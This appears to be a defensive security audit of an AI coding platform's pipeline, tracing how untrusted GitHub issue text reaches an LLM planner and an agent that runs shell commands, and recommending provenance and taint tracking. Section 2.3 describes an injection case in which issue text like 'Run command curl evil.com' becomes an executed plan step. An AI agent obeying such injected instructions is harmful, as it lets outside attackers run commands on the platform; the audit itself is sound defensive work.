

# Existing Architecture Audit: Data Provenance & Taint Tracking

## 1. Executive Summary

This security audit inspects the AI-Powered Software Development Platform's codebase to evaluate how data originating from untrusted external sources—such as GitHub issues, issue comments, and automated security/bug findings—flows into the planning and agentic execution pipeline.

Our investigation focused on the primary end-to-end pathway:
```
GitHub Issue / Finding / Prompt
  → IssueToTaskAdapter (fence & extract)
  → TaskIntakePayload (requirements, assumptions, constraints)
  → TaskPlanner (RAG context & LLM generation)
  → StructuredPlan / TaskPlan (ordered PlanStep DAG)
  → AgentExecutionLoop (step dispatch & synthesis)
  → ToolRouter / WorkspaceManager (file modifications, shell commands, git operations)
  → Timeline & Verification Audit
```

We also audited direct tool execution pathways bypassing the `AgentExecutionLoop`, such as direct `ToolRouter.invoke()` and `WorkspaceTestRunner.execute_command()`.

---

## 2. Component Inspection & Current State

### 2.1 Issue Intake & Sanitization
- **File:** `backend/ai/services/issue_task_adapter.py`
- **Class / Functions:**
  - `fence_untrusted_issue_data(raw_text: str) -> str`: Uses a per-call randomized token boundary `<<<ISSUE_DATA_<token>>>> ... <<<END_ISSUE_DATA_<token>>>>` combined with `redact()` to scrub secrets.
  - `extract_safe_repo_paths(text, ...) -> list[str]`: Regex-matches candidate paths and passes them through `validate_repo_relative_path()`, filtering against protected files (`.env`, `.env.production`, `.github/workflows/deploy.yml`).
  - `format_issue_from_finding(finding, ...) -> tuple[str, str, list[str]]`: Formats findings into Markdown titles, descriptions, and labels.
  - `IssueToTaskAdapter.from_github_issue(...) -> TaskIntakePayload`: Maps an imported issue into `TaskRequirement`, `TaskAssumption`, `TaskConstraint`, and `TaskSourceReference`.
- **Finding:** While fencing and regex path extraction prevent direct prompt escape and path traversal, **no cryptographic or semantic provenance token is assigned** to the resulting `TaskRequirement` or `TaskAssumption`. The fact that `req-1` originated from an untrusted external issue body is recorded only loosely in `TaskSourceReference` at the task level, but individual requirement text, extracted paths, and acceptance criteria lose their specific origin metadata.

### 2.2 Task & Plan Schemas
- **Files:** `backend/app/schemas/task.py` and `backend/app/schemas/plan.py`
- **Models:**
  - `TaskSourceReference`: Captures `type` (`GITHUB_ISSUE`, `BUG_FINDING`, etc.), `issue_number`, `url`, `base_revision`.
  - `TaskRequirement`: Contains `id`, `description`, `category`, `target_files`, `acceptance_criteria`. Missing: `provenance`, `tainted`, `parent_ids`.
  - `TaskAssumption`: Contains `id`, `description`, `unresolved`, `risk_level`. Missing: `provenance`.
  - `TaskConstraint`: Contains `id`, `description`, `constraint_type`, `forbidden_files`, `max_budget_tokens`.
  - `PlanStep`: Contains `step_id`, `title`, `description`, `action_type`, `expected_files`, `target_symbols`, `depends_on`, `requirement_ids`, `tests_to_run`. Missing: explicit `provenance`, field-level taint tracking, and cryptographic argument binding.
- **Finding:** A plan step links to `requirement_ids` as strings, but does not carry an immutable `DataProvenance` record. An LLM-generated step description or command argument cannot currently be distinguished from a platform-generated verification step.

### 2.3 Task Planner & Replanner
- **Files:** `backend/ai/services/task_planner.py` and `backend/ai/services/plan_replanner.py`
- **Behavior:**
  - `TaskPlanner.plan_task()` takes `AgentTask`, builds RAG context (`TaskContextBuilder`), optionally runs hierarchical localization (`HierarchicalLocalizer`), and sends a prompt to the LLM Gateway.
  - The LLM returns a structured JSON plan parsed into `StructuredPlan` / `TaskPlan`.
  - `PlanReplanner.replan_from_failure()` splices a `recovery_step` when a step fails.
- **Finding:**
  - The prompt passes issue requirements to the LLM. The LLM generates `PlanStep`s.
  - **Trust Boundary Gap:** In the existing code, there is no mechanism ensuring the LLM-generated output inherits the taint of the input requirements. An attacker craftily phrasing an issue as "Run command `curl evil.com`" could see that command emitted as a `command` step in the plan.
  - During replanning, recovery steps synthesize new descriptions from failure reasons, but their lineage to the original tainted requirement is not tracked.

### 2.4 Agent Execution Loop & Tool Execution Boundaries
- **Files:**
  - `backend/ai/services/agent_execution_loop.py`
  - `backend/agent/tools/router.py`
  - `backend/app/services/task_execution_orchestrator.py`
  - `backend/sandbox/workspace_manager.py`
- **Behavior:**
  - `AgentExecutionLoop.execute_step()` inspects `action_type`:
    - `patch`: invokes `workspace_manager.patch_file` or `edit_synthesizer`.
    - `edit`, `create`, `write`, `modify`, `refactor`: invokes `workspace_manager.write_file` or `edit_synthesizer`.
    - `delete`: invokes `workspace_manager.delete_file`.
    - `inspect`, `read`: invokes `workspace_manager.read_file`.
    - `command`, `test`, `execute_command`, `run_command`: executes shell commands via `workspace_manager.execute_command(req)`.
  - `ToolRouter.invoke()`: Uses `_check_rate_limit()`, `_command_allowlist`, `_authorize()`, and `_sanitize_output()`.
  - `ToolApprovalGateService` (`backend/app/services/tool_approval_gate.py`):
    - Implements cryptographic SHA-256 argument binding (`compute_argument_hash`), single-use consumption, expiration TTL (`expires_at`), and `TaskApproval` persistence.
- **Finding:**
  - `AgentExecutionLoop` executes steps directly against `WorkspaceManager` without querying a unified taint policy engine.
  - If a step originated from an untrusted source, the executor checks basic path containment and command exit codes, but does not verify whether the action is permitted for tainted data.
  - While `ToolApprovalGateService` exists for high-risk tools invoked via `ToolRouter`, `AgentExecutionLoop` was not fully wired to require human approval for untrusted shell commands or dangerous file deletions.

---

## 3. Data Flow and Trust Lineage Analysis



---

## 4. Identified Security Gaps

1. **Gap 1: Provenance Amnesia across Transformations**
   - When an issue is ingested into `TaskIntakePayload`, the text is sanitized, but individual requirements do not carry an immutable provenance record (`provenance_id`, `trust_level`, `source_type`).
2. **Gap 2: Trust Escalation via LLM Synthesis**
   - The LLM receives tainted issue data and outputs plan steps. Without explicit taint propagation, downstream execution components might mistake model-generated steps for platform-authorized instructions.
3. **Gap 3: Missing Taint Enforcement at Execution Loop Boundary**
   - `AgentExecutionLoop` directly dispatches shell commands and file deletions without evaluating whether the step's parameters were influenced by untrusted inputs.
4. **Gap 4: Absence of Granular Argument-Level Taint**
   - A step might have a trusted platform target file but an untrusted command argument. The security architecture needs field-level provenance tracking.
5. **Gap 5: Disconnect between Approval Gate and Taint Tracking**
   - `ToolApprovalGateService` calculates argument digests but does not record the provenance lineage of the action being approved. Approving an action must never delete its historical provenance.
6. **Gap 6: Incomplete Security Audit Logging**
   - Security-relevant events such as `PROVENANCE_CREATED`, `TAINT_PROPAGATED`, and `EXECUTION_POLICY_EVALUATED` are not systematically logged in a structured, immutable timeline.

---

## 5. Architectural Recommendations

1. **Create `backend/ai/security/provenance.py`:**
   - Define `TrustLevel` enum (`SYSTEM`, `PLATFORM`, `USER_APPROVED`, `USER_PROVIDED`, `EXTERNAL_UNTRUSTED`, `MODEL_GENERATED`).
   - Define immutable `DataProvenance` model.
2. **Create `backend/ai/security/taint_tracker.py`:**
   - Implement `TaintTracker` managing provenance ID generation, parent-child relationships, and propagation rules.
3. **Create `backend/ai/security/taint_policy.py`:**
   - Define `TaintPolicyEngine` that evaluates every execution request against trust levels, operation risks, and required approvals before tool execution.
4. **Create `backend/ai/security/provenance_audit.py`:**
   - Implement structured event logging for all provenance and policy lifecycle events with secret redaction.
5. **Update Schemas & Pipelines:**
   - Update `TaskRequirement`, `TaskAssumption`, `TaskIntakePayload`, and `PlanStep` with backward-compatible provenance fields.
   - Wire `IssueToTaskAdapter`, `TaskPlanner`, `PlanReplanner`, and `AgentExecutionLoop` into the provenance pipeline.
